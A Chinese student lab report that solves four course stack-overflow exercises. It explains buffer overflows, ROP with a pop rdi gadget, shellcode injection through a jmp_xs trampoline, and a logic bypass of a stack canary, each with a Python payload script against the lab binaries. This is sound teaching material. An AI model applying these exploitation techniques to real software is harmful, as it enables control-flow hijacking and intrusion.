




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
    通过 `objdump -d problem1` 反汇编代码，发现 `func` 函数中使用了不安全的 `strcpy` 函数，将用户输入复制到栈上，且未进行长度检查。
    - **栈结构分析**：`func` 函数中，目标缓冲区位于 `rbp-0x8`，而函数的返回地址位于 `rbp+0x8`。因此，我们需要填充 8 字节的缓冲区 + 8 字节的 Saved RBP，共 **16 字节** 的 Padding 才能触及返回地址。
    - **攻击目标**：程序中存在一个 `func1` 函数（地址 `0x401216`），该函数会输出 "Yes!I like ICS!"。
    - **攻击策略**：构造 payload，使用 16 个垃圾字节覆盖缓冲区和 RBP，紧接着将返回地址覆盖为 `func1` 的地址。

- **解决方案**：
    使用了 Python 脚本生成 payload。
    ```python
    import struct
    # Padding: 8 bytes buffer + 8 bytes saved rbp = 16 bytes
    padding = b'A' * 16
    # Target Address: func1 (0x401216)
    target_addr = struct.pack('<Q', 0x401216)
    payload = padding + target_addr
    
    with open("ans1.txt", "wb") as f:
        f.write(payload)
    ```
- 
- **结果**：附上图片

### Problem 2:
- **分析**：
    该题目开启了 NX（No-Execute）保护，意味着栈上数据无法作为代码执行。我们需要利用 ROP（Return Oriented Programming）技术。
    - **漏洞点**：`func` 函数中使用 `memcpy` 允许写入 `0x38` 字节，但缓冲区只有 8 字节，存在溢出。Padding 长度同样为 **16 字节**。
    - **攻击目标**：跳转到 `func2` (`0x401216`)。
    - **参数限制**：`func2` 内部检查第一个参数（寄存器 `rdi`）是否等于 `0x3f8` (1016)。
    - **Gadget 寻找**：在 64 位系统中，前几个参数依次存在 `rdi`, `rsi`, `rdx` 等寄存器中。我们在代码中找到了一段 gadget：`pop rdi; ret` (地址 `0x4012c7`)。
    - **攻击策略**：覆盖返回地址为 `pop rdi` 的地址 -> 栈上下一个值放入 `0x3f8` -> 再下一个返回地址填入 `func2` 的地址。

- **解决方案**：
    ```python
    import struct
    padding = b'A' * 16
    pop_rdi = struct.pack('<Q', 0x4012c7) # Gadget address
    arg1 = struct.pack('<Q', 0x3f8)       # Value for rdi (1016)
    func2_addr = struct.pack('<Q', 0x401216)
    
    # ROP Chain: Padding -> pop rdi -> 0x3f8 -> func2
    payload = padding + pop_rdi + arg1 + func2_addr
    
    with open("ans2.txt", "wb") as f:
        f.write(payload)
    ```

- **结果**：附上图片

### Problem 3: 
- **分析**：
    题目没有开启 NX 保护，意味着栈可执行。但题目环境暗示了栈地址可能不固定（ASLR），不能硬编码栈地址。
    - **特殊机制**：程序在 `func` 中将 `rsp` 保存到了全局变量 `saved_rsp`。同时存在一个 `jmp_xs` 函数 (`0x401334`)，其逻辑是跳转到 `saved_rsp + 0x10` 的位置。
    - **地址计算**：在 `func` 中，`saved_rsp` 指向 `rbp-0x30`，而我们的输入缓冲区位于 `rbp-0x20`。计算可知 `saved_rsp + 0x10` 正好指向缓冲区的起始位置。
    - **攻击目标**：调用 `func1` 并传递参数 `0x72` (114)。
    - **攻击策略**：在缓冲区开头写入 Shellcode（汇编代码），然后将函数的返回地址覆盖为 `jmp_xs` 的地址。程序返回时会跳去执行 `jmp_xs`，进而跳回我们的缓冲区执行 Shellcode。

- **解决方案**：
    ```python
    import struct
    # Shellcode: func1(0x72) -> mov edi, 0x72; mov eax, 0x401216; call rax
    shellcode = b'\xbf\x72\x00\x00\x00' + b'\xb8\x16\x12\x40\x00' + b'\xff\xd0'
    
    # Padding calculation: Buffer (32 bytes) - Shellcode length
    pad_length = 32 - len(shellcode)
    padding = b'A' * pad_length + b'B' * 8  # Fill buffer + Saved RBP
    
    # Return Address: Address of jmp_xs (0x401334)
    jmp_xs_addr = struct.pack('<Q', 0x401334)
    
    payload = shellcode + padding + jmp_xs_addr
    
    with open("ans3.txt", "wb") as f:
        f.write(payload)
    ```
- **结果**：附上图片

### Problem 4: 
- **分析**：
    本题开启了 Canary 保护，且存在一个极长的循环逻辑。
    - **Canary 保护机制分析**：
        通过 `objdump` 查看汇编代码，在 `func` 函数开头 (`0x136c`)，程序从 `%fs:0x28` 处读取一个随机值（Canary），并将其存入栈中 `rbp-0x8` 的位置。
        在函数结尾 (`0x140a`)，程序取出 `rbp-0x8` 处的值与 `%fs:0x28` 进行减法比较。如果结果不为 0（即 Canany 被修改），则调用 `__stack_chk_fail` 终止程序。这阻止了简单的栈溢出覆盖返回地址。
    - **逻辑漏洞**：程序逻辑检查局部变量 `check_val` (`rbp-0xc`)。如果在循环结束后该值为 `-1`，则调用目标函数 `func1`。该变量初始化为用户输入的参数，且在后续循环中未被修改。
    - **Timing Attack**：虽然循环次数高达 `0xfffffffe` (约 42 亿次)，但在现代 CPU 上只需数秒即可完成。

- **解决方案**：
    不需要编写 Python 脚本或利用溢出。
    1. 运行程序 `./problem4`。
    2. 随意输入前两个字符串干扰项。
    3. 在输入整数时，直接输入 `-1`。
    4. 等待几秒钟，循环结束后程序自动进入分支输出 Flag。
- **结果**：附上图片

## 思考与总结
本次实验通过四个逐步进阶的题目，深入理解了栈溢出攻击的原理与防护措施。
1.  **原理理解**：理解了函数调用栈帧的结构（Return Address, Saved RBP, Local Variables）以及如何通过覆盖返回地址劫持控制流。
2.  **攻击技术**：
    - 掌握了 **Shellcode** 注入：在栈可执行的情况下，直接注入机器码并执行。
    - 掌握了 **ROP (Return Oriented Programming)**：在开启 NX 保护（栈不可执行）的情况下，利用程序现有的代码片段（Gadgets）构造攻击链。
3.  **防护绕过**：
    - 学习了如何利用寄存器传参（64位系统 `rdi` 等）。
    - 了解了 **ASLR**（地址随机化）带来的挑战以及利用相对偏移（如 Problem 3 中的 `jmp_xs`）进行绕过的方法。
    - 深入分析了 **Stack Canary** 保护机制，认识到溢出并不是唯一的攻击途径，逻辑漏洞（如 Problem 4）同样致命。

通过实验，不仅学会了利用漏洞，更深刻理解了编写安全代码（如检查边界、避免危险函数）的重要性。


## 参考资料

1.  RUC-ICS 课程讲义与实验指导书
2.  CTF Wiki - Stack Overflow: https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/
3.  Computer Systems: A Programmer's Perspective (CS:APP), 3rd Edition
4.  Linux x86-64 Calling Convention: System V AMD64 ABI
